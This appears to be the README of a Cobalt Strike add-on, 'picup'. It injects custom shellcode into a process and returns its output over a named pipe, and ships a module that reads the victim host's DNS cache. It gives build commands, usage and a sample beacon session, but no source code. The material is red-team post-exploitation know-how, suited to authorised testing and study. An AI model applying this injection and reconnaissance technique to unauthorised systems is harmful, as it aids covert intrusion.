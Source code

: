# picup

`Picup` adds the option to Cobalt Strike to send shellcode output to the console. 

First, the aggressor script injects the shellcode with `shinject`. The shellcode than starts a Named Pipe to write its output to it. Than the BOF is loaded and conntects to the Named Pipe. There it reads all the data an print it to the console by using `BeaconPrintf`. 

Of course, the Beacon object files (BOFs) are suitable for this and also far better known and supported, but in my case I wanted to run my own shellcode to get better at C and to learn the concept of position independent code. Maybe there are even some situations where shellcode is the better choice. 

# Usage

## How to compile


```bash
nasm -f win64 adjuststack.asm -o adjuststack.o
nasm -f win64 chkstk_ms.asm -o chkstk_ms.o
x86_64-w64-mingw32-gcc dnscache.c -Wall -m64 -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -c -o dnscache.o -Wl,-Tlinker.ld,--no-seh
x86_64-w64-mingw32-ld -s adjuststack.o chkstk_ms.o dnscache.o -o dnscache.exe
for i in $(objdump -d dnscache.exe |grep "^ " | cut -f2); do echo -e -n "\x$i"; done > dnscache.bin
```
or run

```bash
bash compile.sh
```

The BOF.

```
 x86_64-w64-mingw32-gcc -c piper.x64.c -o piper.x64.o
```

## Use it with Cobalt Strike
```bash
# Clone the repository to your clients Cobalt Strike folder 
git clone https://github.com/svnsyn/picup
cd picup
bash compile.sh 
```

```
beacon> picup dnscache
```


# Example

```
beacon> picup dnscache
[*] Waiting for module named pipe.
[*] Injecting Module.
[+] host called home, sent: 1106 bytes
[*] Tasked beacon to inject C:\Users\rene\Desktop\cobaltstrike4.5\minject\dnscache.bin into 5088 (x64)
[+] received output:
[+] Pipe closed by module, GLE=233.

[+] received output:

 www.gstatic.com
 ----------------------------------------
 A Record: 104.26.3.5
 
 example.org
 ----------------------------------------
 A Record: 93.184.216.34

 www.googletagmanager.com
 ----------------------------------------
 A Record: 160.215.147.0
 A Record: 142.250.181.232

 gbc4.fr.eu.criteo.com
 ----------------------------------------
 A Record: 185.235.84.130
 A Record: 185.235.84.116
 A Record: 185.235.84.128
 A Record: 185.235.84.134
 A Record: 185.235.84.118
 A Record: 185.235.84.115
 pr-bh.ybp.yahoo.com
 ----------------------------------------
 adservice.google.com
 ----------------------------------------
 A Record: 172.217.23.98
 ade.googlesyndication.com
 [...]

[+] host called home, sent: 3615 bytes
```

------------

# Modules 

## Dnscache PIC Module

Reads the dns cache of the system like `ipconfig /displaydns` would. No network calls are made since the [DnsQuery_W](https://docs.microsoft.com/en-us/windows/win32/api/windns/nf-windns-dnsquery_w) are executed with the query option [DNS_QUERY_NO_WIRE_QUERY](https://docs.microsoft.com/en-us/windows/win32/dns/dns-constants). Resolves DNS-Record to IP address if the entry exists.

------------

# Todo

- Random or common names for Named Pipes.
- Just use the aggressor script to read from the Named Pipe (like here [repo](https://github.com/rxwx/cs-rdll-ipc-example)).
- Fix output of IPv6 AAAA Format
- Using other communication methods like Mailslots
- Compare result with `ipconfig /displaydns`

# References


- [@Hasherezade](https://twitter.com/hasherezade): This [paper](https://vxug.fakedoma.in/papers/VXUG/Exclusive/FromaCprojectthroughassemblytoshellcodeHasherezade.pdf) 
- [@ParanoidNinja](https://twitter.com/NinjaParanoid): This [code](https://github.com/paranoidninja/PIC-Get-Privileges) and this great [tutorial](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/): Used  `adjuststack.asm` and `addresshunter.h` from it. 
- [Beacon Object Files](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm)
- [Aggressor Scripts](https://trial.cobaltstrike.com/aggressor-script/index.html).
- [@csandker](https://twitter.com/0xcsandker): One of the best [blosposts](https://csandker.io/2021/01/10/Offensive-Windows-IPC-1-NamedPipes.html) about Named Pipes I was able to find (with security perspective). 
- [@Buffleoverflow](https://twitter.com/buffaloverflow): This [repo](https://github.com/rxwx/cs-rdll-ipc-example) was my foundation.
- [@MrUn1k0d3r](https://twitter.com/MrUn1k0d3r/): Really awesome [Patreon](https://www.patreon.com/MrUn1k0d3r). 
- [@thefLink](https://github.com/codewhitesec/HandleKatz): On of the best sources for learning C (PIC-Style and in general) and I used `chkstk_ms.asm` from it. 
- [React OS](https://reactos.org/): Implementation of [ipconfig](https://doxygen.reactos.org/d3/dae/ipconfig_8c_source.html)



